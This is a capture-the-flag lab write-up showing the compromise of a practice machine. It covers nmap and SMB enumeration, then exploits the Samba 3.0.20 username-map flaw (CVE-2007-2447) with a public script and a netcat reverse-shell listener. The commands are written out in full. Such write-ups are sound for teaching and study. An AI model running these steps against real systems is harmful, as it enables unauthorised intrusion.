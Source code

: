 First things first, I did a full nmap scan to see which services are running and which ports are on

```
nmap -A -Pn -T4 -p- 10.129.158.251
```

![[Pasted image 20250110130356.png]]

-A : aggressive scan (enable OS detection, version detection, script scanning, and traceroute.)

-Pn : do not ping the host

-T4 : fast but still can be a bit stealthy

-p- : scan all ports

  
(-T0 = slow and stealthy | -T1 = a bit more faster but still slow| -T2 = moderate speed | -T3 = Diffault speed | -T4 = fast but still can be a bit stealthy | -T5 = insanely fast and not stealthy at all)  
 

Findings :

 port 21. running an ftp server with version vsftpd 2.3.4 and allowing anonymous login.  
 port 22. SSH service with OpenSSH 4.7p1
port 139&445. running samba with version 3.0.20

Enumeration of port 21

I tried anonymous login but found nothing.

```
ftp 10.129.158.251
```

![[Pasted image 20250110130504.png]]

Then I tried enumerating samba with enum4linux. It's a cool tool which gives information us about shares, drive permissions etc.

```
enum4linux -a 10.129.158.251
```

-a denotes "do all the things for enumerating"

![[Pasted image 20250110130525.png]]

The tmp directory is interesting. Let's dig deeper!  
  
SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands.

```
smbmap -H 10.129.158.251
```

-H : Host

![[Pasted image 20250110130544.png]]


That directory has read and write permissions. Next step will be connecting to it and try to find if it has any valuable information.

```
smbclient -N //10.129.158.251/tmp --option="Client Min Protocol=NT1"
```

![[Pasted image 20250110130619.png]]

There seems we have nothing interesting here.

Tthe next thing I tried was trying to find a vulnerability on Samba via searchsploit. Samba has version 3.0.20 let's try that :

```
searchsploit samba 3.0.20
```

![[Pasted image 20250110130642.png]]

Let's copy the Samba 3.0.20 < 3.0.25rc3 - 'Username map script' Comand Execution (Metasploit) and open it with our text editor nano :

```
searchsploit -m 16320.rb
```

```
nano 16320.rb
```

![[Pasted image 20250110130844.png]]

There is a vulnerability on Samba 3.0.20 and cited as "CVE 2007-2447" allowing a remote code execution which exploits the versions 3.0.20 through 3.0.25rc3 of Samba. Since this is written for metasploit I don't want to use it instead googling "CVE 2007-2447 exploit" led me to the following github page :

[https://github.com/amriunix/CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)

The usage of the script is given as :

```
python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

Exploitation

After downloading the code into my kali, I made mode the exploit executable and created a nc listener. The final step was only running the code.

```
chmod +x exploit.py
```

```
nc -lvnp 8282
```

```
python3 exploit.py 10.129.158.251 445 10.10.14.33 8282
```

And boom!

![[Pasted image 20250110131002.png]]


QED!